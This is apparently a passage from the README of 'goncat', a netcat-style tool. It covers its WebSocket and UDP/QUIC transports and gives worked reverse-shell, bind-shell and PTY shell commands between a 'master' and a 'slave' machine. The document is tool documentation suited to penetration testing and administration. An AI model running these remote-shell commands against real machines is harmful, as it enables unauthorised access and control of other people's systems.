 **Best for**: WebSocket with TLS encryption (ephemeral certificates generated automatically).

#### UDP with QUIC
```bash
goncat master listen 'udp://*:12345' --exec /bin/sh
goncat slave connect udp://192.168.1.100:12345
```

**Best for**: Environments where UDP is preferred or required. QUIC provides reliable, ordered streaming over UDP with built-in TLS 1.3 encryption.

**Note**: 
- UDP transport uses the QUIC protocol for reliability (similar to TCP but over UDP)
- TLS 1.3 encryption is mandatory and built into QUIC
- Works with all goncat features: --ssl, --key, --pty, port forwarding, SOCKS proxy
- Performance is comparable to TCP on local networks

**Note**: When using `--ssl` flag with any protocol, TLS encryption is applied. For `wss://` and `udp://`, encryption is built into the protocol.

## Examples

### Basic Examples

#### Simple Reverse Shell (No Encryption)

```bash
# Master (your machine) - listens on all interfaces, port 12345
goncat master listen 'tcp://*:12345' --exec /bin/sh

# Slave (remote machine) - connects back to you
goncat slave connect tcp://192.168.1.100:12345
```

**Expected**: You get a shell prompt from the remote machine.

#### Bind Shell on Remote Machine

```bash
# Slave (remote machine) - listens on port 12345
goncat slave listen 'tcp://*:12345'

# Master (your machine) - connects and requests /bin/sh
goncat master connect tcp://192.168.1.200:12345 --exec /bin/sh
```

**Expected**: You get a shell prompt from the remote machine.

#### Interactive Shell with PTY

```bash
# Master
goncat master listen 'tcp://*:12345' --exec /bin/bash --pty

# Slave
goncat slave connect tcp://192.168.1.100:12345
```

